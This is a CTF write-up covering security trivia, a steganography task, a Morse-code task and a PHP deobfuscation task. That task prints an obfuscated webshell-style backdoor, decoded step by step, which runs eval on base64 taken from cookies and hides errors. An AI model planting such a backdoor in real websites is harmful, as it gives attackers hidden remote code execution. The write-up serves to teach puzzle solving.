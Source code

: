 # General Information : 130 Point in 4 Challenge
- Rocker : 20 Point

I attack was published about me in Defcon Conference in 2011 I gain access to your phone during the charging process
to execute attack you need a cable that supports power and data connection together
The is Flag `juice jacking`

- Search with police  : 30 Point

I'm a new tool developed by a company who unlocked ios phone in a terrorist attack in San Bernardino, California.
This tool developed to a physical analyzer for smartphones like android and ios
The is Flag `UFED`

- Vegetables : 30 Point

I'm an operating system based on Linux designed to encrypt your data using onion routing and works through USB only
The is Flag `Tails`


- WhoAmi : 50 Point

I'm Jack and I have a penetration testing process for Automated Teller Machine and I don't have any money to buy rubber ducky or any advanced kits.
I've seen on the internet that I can do this tool with myself with some tools based on open-source hardware, I need something can simulate rubber ducky to inject code and enable PowerShell command or execute a command on Windows...
What's the name of this piece amid the family names?
The is Flag `leonardo`

# Web Challenge : d3c0d3 m3 50 Point
- The Challenge is a [zip](https://github.com/X-Vector/CTF/blob/master/Bsides/c99.zip) file Which Contain a php code
```
<?php
$kyo1="JGM9J2NvdW50JzskYT0kX0NPT0tecJRTtecpZihyZecXecNecldCgkYSeck9PSecdecmbCcgJiYgJGMecoJGEpPjMpe2luaec";
$kyo3="zectldmFsecKGecJhc2Uec2NF9kZWNvZGUocHJlZ19ecyZXecBsYWNlKGecFycmF5KCcvW15cdz1cc1ec0vJywnL1xeczLycpLCBhcnJ";
$gj = "bcoxacoxse64cox_coxdcoxecoxccoxode";
$kyo4="heecSgnJywnKycpLCBqb2luKGecFyeccmF5X3NsaWNlKCecRhLCRjKCRhKS0zKSkpKSeckec7ZWNobyAnPC8nLiRrLiecc+Jzt9";
$iuq = "str_replace";
$kyo2="V9zZecXQoJ2Vyeccm9yX2xvZycecsICcvecZGV2L251bGwnKTskecaecz0nYWd7aGlkZGVuecX2eclecuX3BocH0nO2VjecaG8gJzwnLeciRecrLic+J";
$gj = $iuq("cox", "", $gj);
eval($gj($iuq("ec", "", $kyo1.$kyo2.$kyo3.$kyo4)));
?>
```
- first the variable `$iuq` containe a php built in function which is used to replcae any this words `ec` in this variables `$kyo1,$kyo2,$kyo3,$kyo4` with nothing then when excute the code the output will be

```
JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSk9PSdmbCcgJiYgJGMoJGEpPjMpe2luaV9zZXQoJ2Vycm9yX2xvZycsICcvZGV2L251bGwnKTskaz0nYWd7aGlkZGVuX2luX3BocH0nO2VjaG8gJzwnLiRrLic+JztldmFsKGJhc2U2NF9kZWNvZGUocHJlZ19yZXBsYWNlKGFycmF5KCcvW15cdz1cc10vJywnL1xzLycpLCBhcnJheSgnJywnKycpLCBqb2luKGFycmF5X3NsaWNlKCRhLCRjKCRhKS0zKSkpKSk7ZWNobyAnPC8nLiRrLic+Jzt9
```
- decode it with base64 then the output will be
```
$c='count';$a=$_COOKIE;if(reset($a)=='fl' && $c($a)>3){ini_set('error_log', '/dev/null');$k='ag{hidden_in_php}';echo '<'.$k.'>';eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));echo '</'.$k.'>';}
```
- you will see that variable `$a` is `fl` and variable `$k` is `ag{hidden_in_php}` so your flag is `flag{hidden_in_php}`

# Steganography : Zoom Eye 50 Point
- The Challenge is a [zip](https://github.com/X-Vector/CTF/blob/master/Bsides/invokeme.zip) file Which Contain a image They Give us The Password of zip file `squnity`
- I'm Extract The zip file and found that the image is 13 Mbyte , So There a something hidden in the photo
- I'm used steghide in linux `steghide extract -sf rockme.jpg` , you can install it `apt install steghide`
- steghide requierd a password !!! , I see The Photo and zoom in When I found This Words With Grey Color :D
![Password](https://github.com/X-Vector/CTF/blob/master/Bsides/stage2.png?raw=true)
- I try to set this words `l3757ryh4rd3r` as password and the reinvoke.txt file is output
- The File Contain This Character and string
```
{@C6> xADF> :D D:>A=J 5F>>J E6IE @7 E96 AC:?E:?8 2?5 EJA6D6EE:?8 :?5FDECJ] {@C6> xADF> 92D 366? E96 :?5FDECJVD DE2?52C5 5F>>J E6IE 6G6C D:?46 E96 `d__D[ H96? 2? F?<?@H? AC:?E6C E@@< 2 82==6J @7 EJA6 2?5 D4C2>3=65 :E E@ >2<6 2 EJA6 DA64:>6? 3@@<] xE 92D DFCG:G65 ?@E @?=J 7:G6 46?EFC:6D[ 3FE 2=D@ E96 =62A :?E@ 6=64EC@?:4 EJA6D6EE:?8[ C6>2:?:?8 6DD6?E:2==J F?492?865] xE H2D A@AF=2C:D65 :? E96 `he_D H:E9 E96 C6=62D6 @7 {6EC2D6E D966ED 4@?E2:?:?8 {@C6> xADF> A2DD286D[ 2?5 >@C6 C646?E=J H:E9 56D<E@A AF3=:D9:?8 D@7EH2C6 =:<6 p=5FD !286|2<6C :?4=F5:?8 G6CD:@?D @7 {@C6> xADF>]
7=28L5bGb=_Ab507_C0fc=b?fdN
```
- I Think and search in google When I found it's rot47
- I go to [decode.fr](https://www.dcode.fr/rot-47-cipher) and decode it , The Output is
```
Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.
flag{d3v3l0p3d_f0r_74l3n75}flag{d3v3l0p3d_f0r_74l3n75}
```
- Then The Flag is `flag{d3v3l0p3d_f0r_74l3n75}`











# Crypto Challenge : abusing 50 Point
- The Challenge is a [mp3](https://github.com/X-Vector/CTF/blob/master/Bsides/abusing.mp3) file Which This Sound Like Morse code
- Go to this [website](https://morsecode.scphillips.com/labs/audio-decoder-adaptive/) then upload mp3 file and you get this result
![Morse code](https://github.com/X-Vector/CTF/blob/master/Bsides/morse.png?raw=true)
- We Play in This Words `ETTE L A G I N M C O D E W E T R U S T` To Get This Result `FLAGINMCODEWETRUST` Then We Submit and we get is wrong Then we add `{}_` to words to be `FLAG{IN_MCODE_TRUST}` and Flag is Correct
